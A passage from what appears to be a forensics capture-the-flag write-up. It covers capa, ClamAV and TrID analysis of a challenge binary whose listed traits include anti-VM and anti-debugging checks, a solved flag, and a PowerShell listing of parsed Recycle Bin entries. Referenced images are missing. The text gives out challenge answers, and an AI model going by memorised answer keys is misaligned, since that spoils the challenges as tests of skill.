│ sha256     │ 3319e9fd2c3a50d8e41c753d58769480eaf1dde78b16f0e5c61da0d1d457ed2c                    │
│ analysis   │ static                                                                              │
│ os         │ windows                                                                             │
│ format     │ pe                                                                                  │
│ arch       │ amd64                                                                               │
│ path       │ C:/Users/WDAGUtilityAccount/Desktop/readwrite/2024/resources/puzzle.exe             │
└────────────┴─────────────────────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ ATT&CK Tactic             ┃ ATT&CK Technique                                                     ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ DEFENSE EVASION           │ Obfuscated Files or Information [T1027]                              │
│                           │ Virtualization/Sandbox Evasion::System Checks [T1497.001]            │
│ DISCOVERY                 │ File and Directory Discovery [T1083]                                 │
│                           │ Process Discovery [T1057]                                            │
│                           │ System Information Discovery [T1082]                                 │
│ EXECUTION                 │ Command and Scripting Interpreter [T1059]                            │
│                           │ Shared Modules [T1129]                                               │
└───────────────────────────┴──────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ MBC Objective            ┃ MBC Behavior                                                               ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ ANTI-BEHAVIORAL ANALYSIS │ Debugger Detection::Timing/Delay Check QueryPerformanceCounter [B0001.033] │
│                          │ Virtual Machine Detection [B0009]                                          │
│ DATA                     │ Checksum::Adler [C0032.005]                                                │
│                          │ Compress Data [C0024]                                                      │
│                          │ Compression Library [C0060]                                                │
│                          │ Encode Data::XOR [C0026.002]                                               │
│ DEFENSE EVASION          │ Obfuscated Files or Information::Encoding-Standard Algorithm [E1027.m02]   │
│ DISCOVERY                │ File and Directory Discovery [E1083]                                       │
│                          │ System Information Discovery [E1082]                                       │
│ EXECUTION                │ Command and Scripting Interpreter [E1059]                                  │
│ FILE SYSTEM              │ Create Directory [C0046]                                                   │
│                          │ Delete Directory [C0048]                                                   │
│                          │ Delete File [C0047]                                                        │
│                          │ Read File [C0051]                                                          │
│                          │ Writes File [C0052]                                                        │
│ OPERATING SYSTEM         │ Environment Variable::Set Variable [C0034.001]                             │
│ PROCESS                  │ Create Process [C0017]                                                     │
│                          │ Terminate Process [C0018]                                                  │
└──────────────────────────┴────────────────────────────────────────────────────────────────────────────┘
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Capability                                       ┃ Namespace                                       ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ check for time delay via QueryPerformanceCounter │ anti-analysis/anti-debugging/debugger-detection │
│ reference anti-VM strings targeting Xen          │ anti-analysis/anti-vm/vm-detection              │
│ compute adler32 checksum                         │ data-manipulation/checksum/adler32              │
│ compress data via ZLIB inflate or deflate        │ data-manipulation/compression                   │
│ encode data using XOR (6 matches)                │ data-manipulation/encoding/xor                  │
│ accept command line arguments                    │ host-interaction/cli                            │
│ query environment variable (4 matches)           │ host-interaction/environment-variable           │
│ set environment variable (3 matches)             │ host-interaction/environment-variable           │
│ get common file path                             │ host-interaction/file-system                    │
│ create directory (3 matches)                     │ host-interaction/file-system/create             │
│ delete directory                                 │ host-interaction/file-system/delete             │
│ delete file                                      │ host-interaction/file-system/delete             │
│ enumerate files recursively                      │ host-interaction/file-system/files/list         │
│ get file size                                    │ host-interaction/file-system/meta               │
│ read file on Windows (10 matches)                │ host-interaction/file-system/read               │
│ write file on Windows (2 matches)                │ host-interaction/file-system/write              │
│ get disk information (3 matches)                 │ host-interaction/hardware/storage               │
│ create process on Windows                        │ host-interaction/process/create                 │
│ enumerate process modules                        │ host-interaction/process/modules/list           │
│ terminate process (3 matches)                    │ host-interaction/process/terminate              │
│ link many functions at runtime (2 matches)       │ linking/runtime-linking                         │
│ linked against ZLIB                              │ linking/static/zlib                             │
│ parse PE header (4 matches)                      │ load-code/pe                                    │
│ resolve function by parsing PE exports           │ load-code/pe                                    │
└──────────────────────────────────────────────────┴─────────────────────────────────────────────────┘

> dfirws-install.ps1 -ClamAV
Installing ClamAV
Added C:\Program Files\ClamAV to PATH
The operation completed successfully.
(default) PS C:\Users\WDAGUtilityAccount\Desktop> & 'C:\Program Files\ClamAV\clamscan.exe' .\readwrite\2024\resources\puzzle.exe
Loading:    14s, ETA:   0s [========================>]    8.70M/8.70M sigs
Compiling:   3s, ETA:   0s [========================>]       41/41 tasks

C:\Users\WDAGUtilityAccount\Desktop\readwrite\2024\resources\puzzle.exe: OK

----------- SCAN SUMMARY -----------
Known viruses: 8698967
Engine version: 1.4.1
Scanned directories: 0
Scanned files: 1
Infected files: 0
Data scanned: 19.40 MB
Data read: 18.22 MB (ratio 1.06:1)
Time: 22.051 sec (0 m 22 s)
Start Date: 2024:10:02 07:05:33
End Date:   2024:10:02 07:05:55
> trid .\readwrite\2024\resources\puzzle.exe

TrID/32 - File Identifier v2.24 - (C) 2003-16 By M.Pontello
Definitions found:  18209
Analyzing...

Collecting data from file: .\readwrite\2024\resources\puzzle.exe
 70.8% (.CPL) Windows Control Panel Item (generic) (57583/11/19)
 12.9% (.EXE) Win64 Executable (generic) (10523/12/4)
  6.2% (.EXE) Win16 NE executable (generic) (5038/12/1)
  2.5% (.ICL) Windows Icons Library (generic) (2059/9)
  2.4% (.EXE) OS/2 Executable (generic) (2029/13)
```

After looking in **Ghidra**, **r2** and **cutter** I looked at the image again:


Looking at the books we find the following modification:



And we have flag 8: **CTF[HAPPY BIRTHDAY]**

## Flag 9 - Recycle-Bin.zip

Lets continue with **Recycle-Bin.zip**. 

```bash
 get-ChildItem . -Filter `$I* | ForEach-Object { C:\Users\WDAGUtilityAccount\Desktop\readonly\recbin.exe -f $_} | Sort-Object
C:\temp\rΣkna_ut_din_riktiga_σlder.ps1 [44 bytes] deleted on Mon Aug 26 16:27:21 2024 Z
C:\temp\rΣkna_ut_din_riktiga_σlder.ps1 [44 bytes] deleted on Mon Aug 26 17:02:35 2024 Z
C:\Users\aleksej.pazjitnov\Desktop\42_meningen_med_livet.ps1 [44 bytes] deleted on Mon Aug 26 16:26:57 2024 Z
C:\Users\aleksej.pazjitnov\Desktop\42_meningen_med_livet.ps1 [44 bytes] deleted on Mon Aug 26 16:51:04 2024 Z
C:\Users\aleksej.pazjitnov\Desktop\Mormors_moonshine_recept.txt [84 bytes] deleted on Mon Aug 26 16:27:04 2024 Z
C:\Users\aleksej.pazjitnov\Desktop\Mormors_moonshine_recept.txt [84 bytes] deleted on Mon Aug 26 16:51:08 2024 Z
C:\Users\aleksej.pazjitnov\Documents\alla_mina_l÷senord.txt [84 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\alla_mina_l÷senord.txt [84 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Area_51_Aliens.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Area_51_Aliens.pdf [17051 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\BΣsta_handdukarna.txt [84 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\BΣsta_handdukarna.txt [84 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Cheatcodes_Tetris.txt [84 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Cheatcodes_Tetris.txt [84 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Computers for Dummies.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Computers for Dummies.pdf [17051 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Doctor_Spin_1992.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Doctor_Spin_1992.pdf [17051 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Hur du lagar en bil med ett gem.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Hur du lagar en bil med ett gem.pdf [17051 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Hur_man_bygger_ett_hus_med_Youtube.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Hur_man_bygger_ett_hus_med_Youtube.pdf [17051 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Is_Die_Hard_A_Christmas_Movie.pdf [17051 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Is_Die_Hard_A_Christmas_Movie.pdf [17051 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Lorem_ipsum_dolor.txt [84 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Lorem_ipsum_dolor.txt [84 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_01.txt [7 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_01.txt [7 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_02.txt [7 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_02.txt [7 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_03.txt [7 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_03.txt [7 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_04.txt [5 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_04.txt [5 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_05.txt [7 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_05.txt [7 bytes] deleted on Mon Aug 26 16:50:59 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_06.txt [13 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_06.txt [13 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_07.txt [12 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_07.txt [12 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_08.txt [7 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_08.txt [7 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_09.txt [5 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_09.txt [5 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_10.txt [4 bytes] deleted on Mon Aug 26 16:38:32 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_10.txt [4 bytes] deleted on Mon Aug 26 16:56:16 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_11.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_11.txt [9 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_12.txt [8 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_12.txt [8 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_13.txt [12 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_13.txt [12 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_14.txt [4 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_14.txt [4 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_15.txt [8 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_15.txt [8 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_16.txt [4 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_16.txt [4 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_17.txt [8 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_17.txt [8 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_18.txt [7 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_18.txt [7 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_19.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_19.txt [9 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_20.txt [4 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_20.txt [4 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_21.txt [6 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_21.txt [6 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_22.txt [4 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_22.txt [4 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_23.txt [7 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_23.txt [7 bytes] deleted on Mon Aug 26 16:51:14 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_24.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_24.txt [9 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_25.txt [6 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_25.txt [6 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_26.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_26.txt [9 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_27.txt [14 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_27.txt [14 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_28.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_28.txt [9 bytes] deleted on Mon Aug 26 16:56:28 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_29.txt [9 bytes] deleted on Mon Aug 26 16:39:17 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_29.txt [9 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_30.txt [6 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_30.txt [6 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_31.txt [4 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_31.txt [4 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_32.txt [9 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_32.txt [9 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_33.txt [4 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_33.txt [4 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_34.txt [4 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_34.txt [4 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_35.txt [9 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_35.txt [9 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_36.txt [12 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_36.txt [12 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_37.txt [6 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_37.txt [6 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_38.txt [6 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_38.txt [6 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_39.txt [7 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_39.txt [7 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_40.txt [7 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_40.txt [7 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_41.txt [4 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_41.txt [4 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_42.txt [15 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_42.txt [15 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_43.txt [4 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_43.txt [4 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_44.txt [11 bytes] deleted on Mon Aug 26 16:39:19 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_44.txt [11 bytes] deleted on Mon Aug 26 16:56:41 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_45.txt [7 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_45.txt [7 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_46.txt [6 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_46.txt [6 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_47.txt [8 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_47.txt [8 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_48.txt [8 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_48.txt [8 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_49.txt [4 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_49.txt [4 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_50.txt [8 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_50.txt [8 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_51.txt [7 bytes] deleted on Mon Aug 26 16:39:30 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_51.txt [7 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_52.txt [11 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_52.txt [11 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_53.txt [11 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_53.txt [11 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_54.txt [6 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_54.txt [6 bytes] deleted on Mon Aug 26 16:56:50 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_55.txt [10 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_55.txt [10 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_56.txt [11 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_56.txt [11 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_57.txt [5 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_57.txt [5 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_58.txt [11 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_58.txt [11 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_59.txt [6 bytes] deleted on Mon Aug 26 16:39:40 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_59.txt [6 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_60.txt [4 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_60.txt [4 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_61.txt [7 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_61.txt [7 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_62.txt [5 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_62.txt [5 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_63.txt [9 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_63.txt [9 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_64.txt [9 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_64.txt [9 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_65.txt [8 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_65.txt [8 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_66.txt [6 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_66.txt [6 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_67.txt [4 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_67.txt [4 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_68.txt [5 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_68.txt [5 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_69.txt [9 bytes] deleted on Mon Aug 26 16:38:58 2024 Z
C:\Users\aleksej.pazjitnov\Documents\Min_Biografi_del_69.txt [9 bytes] deleted on Mon Aug 26 16:56:33 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\$I1ZDW1I.copy0 [204 bytes] deleted on Mon Aug 26 16:34:09 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\$I3DCME2.ini [192 bytes] deleted on Mon Aug 26 16:34:10 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\$IADY4WK.db [192 bytes] deleted on Mon Aug 26 16:34:10 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\$IRXT05B.db [192 bytes] deleted on Mon Aug 26 16:34:10 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\$R3DCME2.ini [129 bytes] deleted on Mon Aug 26 16:34:20 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\HTTP_File_Server.exe [2501632 bytes] deleted on Mon Aug 26 16:34:01 2024 Z
C:\Users\aleksej.pazjitnov\Downloads\HTTP_File_Server.exe [2501632 bytes] deleted on Mon Aug 26 16:51:44 2024 Z
